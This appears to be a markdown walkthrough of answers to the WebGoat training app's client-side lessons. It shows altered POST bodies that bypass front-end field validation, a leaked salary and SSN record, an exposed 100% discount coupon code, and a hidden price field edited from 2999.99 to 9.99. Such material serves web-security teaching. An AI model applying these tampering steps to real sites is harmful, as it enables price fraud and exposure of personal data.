 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**  *generated with [DocToc](https://github.com/thlorenz/doctoc)*

- [Client side](#client-side)
  - [Bypass front-end restrictions](#bypass-front-end-restrictions)
  - [Client side filtering](#client-side-filtering)
  - [HTML tampering](#html-tampering)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

# Client side

## Bypass front-end restrictions

### 1. Concept

### 2. Field Restrictions

Original POST body:

```
select=option2&radio=option2&checkbox=on&shortInput=12345
```

Altered POST body:

```
select=option3&radio=option3&checkbox=alfa&shortInput=123456
```

### 3. Validation

Original POST body:

```
field1=abc&field2=123&field3=abc+123+ABC&field4=seven&field5=01101&field6=90210-1111&field7=301-604-4882&error=0
```

Altered POST body:

```
field1=abcd&field2=1234&field3=abc+123+ABC.&field4=seventy&field5=01101alfa&field6=90210-1111-beta&field7=301-604-4882-gamma&error=0
```

## Client side filtering

### Client side filtering

### Salary manager

Server response contains:

```
...
{
  "Salary" : "450000",
  "UserID" : "112",
  "FirstName" : "Neville",
  "LastName" : "Bartholomew",
  "SSN" : "111-111-1111"
}
...
```

### Smarthone online shop

`GET http://localhost:8080/WebGoat/clientSideFiltering/challenge-store/coupons/ HTTP/1.1` returns discount codes

```
...
{
    "code" : "get_it_for_free",
    "discount" : 100
}
...
```

## HTML tampering

### Concept

### Try it yourself

Original HTML:

```
<input id="Total" name="Total" type="HIDDEN" value="2999.99">
```

Altered HTML:

```
<input id="Total" name="Total" type="HIDDEN" value="9.99">
```

### Mitigation

Never trust input sent by a client.